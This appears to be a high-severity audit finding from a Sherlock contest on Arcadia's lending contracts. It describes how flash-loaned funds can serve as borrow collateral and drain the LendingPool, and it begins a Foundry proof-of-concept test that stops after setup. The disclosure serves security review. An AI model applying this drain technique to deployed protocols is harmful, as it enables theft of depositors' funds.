 Rhythmic Seaweed Hedgehog

high

# Flash loans can trick the `LendingPool` into issuing debt backed by its own collateral.

## Summary

Accounts can use flash-loaned funds as [borrow](https://github.com/sherlock-audit/2023-12-arcadia/blob/de7289bebb3729505a2462aa044b3960d8926d78/lending-v2/src/LendingPool.sol#L414) collateral from a [`LendingPool`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol) [without tripping the health check](https://github.com/sherlock-audit/2023-12-arcadia/blob/de7289bebb3729505a2462aa044b3960d8926d78/accounts-v2/src/accounts/AccountV1.sol#L660), allowing collateral backing to be migrated directly into attacker-controlled accounts, where the only collateral at risk is that belonging to the [`LendingPool`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol) itself.

Further, it can be demonstrated that the underlying balance of the [`LendingPool`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol) can be drained at zero cost to an attacker, resulting in the failure to liquidate active positions due to insolvency.

## Vulnerability Detail

Let's start by demonstration.

First, we append the following attack sequence to [`Borrow.fuzz.t.sol`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/test/fuzz/LendingPool/Borrow.fuzz.t.sol):

```solidity
function test_sherlock_drain() public {

  /// @dev Declare our attacker.
  address _ATTACKER = address(0x69);

  /// @dev Here we declare the number of bot accounts to use.
  /// We're doing this to make the math a little bit simpler,
  /// since we don't need to write special handlers for dust
  /// liquidity in a target pool.
  /// You can scale this arbitrarly.
  uint256 numberOfBots = 2;

  /// @dev Here we assume the attacker has some liquidity.
  uint256 attackLiquidity = 1 ether;

  /// @dev Here we assume the initial liquidity of the pool.
  /// We'll initialize this using the `liquidityProvider`,
  /// although we can just assume this to be the aggregate
  /// liquidity of lots of users.
  uint256 liquidity = (numberOfBots * attackLiquidity) / 2;

  /// @dev Prepare token approvals for the liquidity provider
  /// and initialize the attacker's initial balance.
  vm.startPrank(users.liquidityProvider);
  mockERC20.stable1.approve(address(pool), type(uint256).max);
  mockERC20.stable1.transfer(_ATTACKER, attackLiquidity);
  vm.stopPrank();

  /// @dev Deposit the liquidity into the senior tranche.
  vm.prank(address(srTranche));
  pool.depositInLendingPool(liquidity, users.liquidityProvider);

  assertEq(mockERC20.stable1.balanceOf(address(pool)), liquidity);

```